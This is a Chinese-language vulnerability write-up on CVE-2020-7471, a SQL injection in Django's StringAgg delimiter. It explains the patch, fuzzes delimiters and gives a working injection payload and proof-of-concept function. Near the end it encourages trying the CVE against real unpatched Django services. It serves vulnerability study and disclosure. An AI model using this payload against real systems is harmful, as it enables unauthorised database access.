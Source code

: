 # CVE-2020-7471 漏洞

### 漏洞原因

摘录 CVE-2020-7471 对这个漏洞的描述：

> Django 1.11 before 1.11.28, 2.2 before 2.2.10, and 3.0 befor
>  [![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646698985448.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646698985448.jpg)
>  e 3.0.3 allows SQL Injection if untrusted data is used as a StringAgg  delimiter (e.g., in Django applications that offer downloads of data as a series of rows with a user-specified column delimiter). By passing a  suitably crafted delimiter to a contrib.postgres.aggregates.StringAgg  instance, it was possible to break escaping and inject malicious SQL.

可以看见这个漏洞的核心是 StringAgg 聚合函数的 delimiter 参数存在 SQL 注入漏洞。但是很快，为什么存在漏洞？怎么利用这个漏洞？二个问题在我心中油然而生，好奇心驱使我继续往下探索：

### 官方修复

首先在 Github 仓库查找 django 的 commit 记录，在这里不难发现官方对其的修复：

https://github.com/django/django/commit/eb31d845323618d688ad429479c6dda973056136

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364670598436.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364670598436.jpg)

从这里我们知道几个信息，漏洞函数位于下面的模块之中

```
from django.contrib.postgres.aggregates import StringAgg
```

官方对 delimiter 使用如下语句处理来防御 django

```
Value(str(delimiter))
```

为什么这种方式能防御呢？首先补充一个知识点，如果你熟悉 django 或者至少做过 django 渗透，你应该知道在 django 开发中编写查询操作的时候，正确的做法是用下面的代码段：

```
sql = "SELECT * FROM user_contacts WHERE username = %s"
user = 'zhugedali'
cursor.execute(sql, [user])
```

django会根据你所使用的数据库服务器（例如PostSQL或者MySQL）的转换规则，自动转义特殊的SQL参数。如果你的查询代码像下面这种写法就存在注入的风险：

```
sql = "SELECT * FROM user_contacts WHERE username = %s" % 'zhugedali'
cursor.execute(sql)
```

那么回到正题，为什么 Value 函数可以解决 SQL 注入隐患，我们跟进 django 的源码查看：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364671098328.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364671098328.jpg)

注释写的非常清楚，Vlue处理过的参数会被加到sql的参数列表里，之后会被 django 内置的过滤机制过滤，从而防范 SQL 漏洞。

到这里想必很多读者还是很好奇对于存在漏洞的版本我们如何去利用 SQL 漏洞呢？这就需要费点时间去搭建环境并从源码层面分析出 SQL 漏洞点的上下文语句情况。

### 漏洞利用

我搭建的环境如下：

- django 3.0.2
- postgres 10.11-3
- python 3.6

搭建环境的时候注意 django 配置好 settings.py 文件，并初始化 postgres 的数据库和数据表，文末会提供环境。

首先研究一下 StringAgg 的用法，直接阅读官方手册：

https://docs.djangoproject.com/en/3.0/ref/contrib/postgres/aggregates/

django.contrib.postgres.aggregates 提供 postggres 的聚合函数，其中的 StringAgg 类的参数如下：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364671768129.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364671768129.jpg)

简单来讲他会将输入的值使用 delimiter 分隔符级联起来，Django 的 Model 类如何使用这个让我摸索了一会，我直接给出后面会提供的 POC 里面的示例：

```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

这个查询操作就是查询 Info 对应的 postgres 数据表的 gender 列，并将 name 列使用横线连接聚合，输入如下：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364672088314.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364672088314.jpg)

为了测试出 delimiter 是如何导致SQL 注入的，我首先编写了一段 FUZZ 程序用于引发程序报错：

```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```

测试发现当 delimiter 是单引号的时候会导致报错：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646726545.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646726545.jpg)

从报错信息很明显看出单引号未经过任何转义嵌入到 SQL 语句中了。然后我们来追踪程序的内部找出完整的 SQL 语句上下文。

我们上面的查询语句调用了 self.cursor.execute，从变量窗口可以看到此时变量窗口的 sql 变量还没有嵌入 delimiter 的值。

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364673657629.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364673657629.jpg)

在 86 行设置断点，再运行三次可以看到此时的 sql 已经加入了 delimiter 为单引号的取值：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646745543811.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/16273646745543811.jpg)

这里的转义号是因为 sql 是个字符串，这行命令最终放入 postgres 中执行就变成了：

```
SELECT "vul_app_info"."gender", STRING_AGG("vul_app_info"."name", ''') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1
```

三个单引号那里会导致语法错误，并且我们将完整的 SQL 注入上下文环境得到了。在我的 POC 中我测试了 postgres 的注释符，即将 delimiter 设置为 `')--`，报错如下：

[![img](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364675062523.jpg)](CVE-2020-7471-Django-SQL注入漏洞-.assets/1627364675062523.jpg)

很明显可以看到成功注释了 FROM 语句。为了构造合法的上下文语句我们将 delimiter 设置为：

```
'-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
```

传入之后发现，输出是：

```
{'gender': 'male', 'mydefinedname': 'li-zhao'}
```

如果只传入 `delimiter = '-'`，输出如下：

```
{'gender': 'female', 'mydefinedname': 'zhang'}
{'gender': 'male', 'mydefinedname': 'li-zhao'}
```

至此漏洞证明完毕

进一步，我们可以思考近期如果遇到真实环境中有 django 开发的服务返回一些查询的聚合内容，并且允许用户指定哪种连接符的时候，应该多加思考是否该服务未更新为最新版本，可以尝试这个 CVE 漏洞。

### 漏洞环境和 POC

https://github.com/Saferman/CVE-2020-7471

核心函数如下:

```
def query_with_evil():
    '''
    注入点证明
    分别设置delimiter为 单引号 二个单引号 二个双引号
    尝试注释后面的内容 ')--
    :return:
    '''
    print("[+]正常的输出：")
    payload = '-'
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
    print("[+]注入后的的输出：")
    payload = '-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
```